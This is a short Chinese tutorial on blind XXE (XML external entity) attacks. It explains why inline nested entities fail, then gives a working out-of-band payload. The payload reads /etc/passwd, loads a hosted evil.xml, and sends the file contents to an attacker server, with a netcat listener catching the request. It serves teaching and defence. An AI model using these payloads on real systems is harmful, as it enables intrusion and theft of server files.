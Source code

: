 ```yaml
---
title: "Blind XXE 原理"
id: zhfly3593
---
```


### Blind XXE 原理

带外数据通道的建立是使用嵌套形式，利用外部实体中的URL发出访问，从而跟攻击者的服务器发生联系。

直接在内部实体定义中引用另一个实体的方法如下，但是这种方法行不通。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % param1 "file:///c:/1.txt">
<!ENTITY % param2 "http://127.0.0.1/?%param1">
%param2;
]> 
```

于是考虑内部实体嵌套的形式：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % param1 "file:///c:/1.txt">
<!ENTITY % param2 "<!ENTITY % param222 SYSTEM'http://127.0.0.1/?%param1;'>">
%param2;
]>
<root> 
```

但是这样做行不通，原因是不能在实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体。

![image](../img/19d3fbb8a644691eee18ff28c3f47bc8.png)

##### 解决方案是：

将嵌套的实体声明放入到一个外部文件中，这里一般是放在攻击者的服务器上，这样做可以规避错误。

如下：

payload

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % remote SYSTEM "http://192.168.100.1/evil.xml">
%remote;
%all;
]> 
```

【evil.xml】

```
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://192.168.100.1/?file=%file;'>"> 
```

nc -lvv port 监听即可获得请求回显内容